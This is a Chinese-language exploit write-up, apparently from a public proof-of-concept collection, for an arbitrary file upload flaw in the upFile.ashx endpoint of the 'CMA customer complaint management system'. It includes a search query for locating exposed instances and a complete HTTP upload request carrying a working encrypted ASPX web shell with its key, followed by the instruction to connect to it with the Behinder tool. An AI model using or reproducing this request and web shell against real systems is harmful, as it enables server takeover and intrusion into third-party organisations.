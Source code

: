# CMA客诉管理系统 upFile.ashx 任意文件上传漏洞

## 漏洞描述

CMA客诉管理系统 upFile.ashx文件存在任意文件上传漏洞，通过漏洞攻击者可以上传任意文件控制服务器

## 漏洞影响

```
CMA客诉管理系统
```

## 网络测绘

```
title="CMA客诉管理系统手机端"
```

## 漏洞复现

登录页面

![](images/202205241430645.png)

发送请求包上传文件

```
POST /upFile/upFile.ashx HTTP/1.1
Host: 
Content-Length: 562
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymXf9pBIUlDVOYtnZ
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close

------WebKitFormBoundarymXf9pBIUlDVOYtnZ
Content-Disposition: form-data; name="file"; filename="shell.aspx"
Content-Type: application/octet-stream

<%@ Page Language="C#" %><%@Import Namespace="System.Reflection"%><%Session.Add("k","e45e329feb5d925b");byte[] k = Encoding.Default.GetBytes(Session[0] + ""),c = Request.BinaryRead(Request.ContentLength);Assembly.Load(new System.Security.Cryptography.RijndaelManaged().CreateDecryptor(k, k).TransformFinalBlock(c, 0, c.Length)).CreateInstance("U").Equals(this);%>

------WebKitFormBoundarymXf9pBIUlDVOYtnZ--
```

![](images/202205241430324.png)

发送后回显路径，使用冰蝎连接

![](images/202205241430125.png)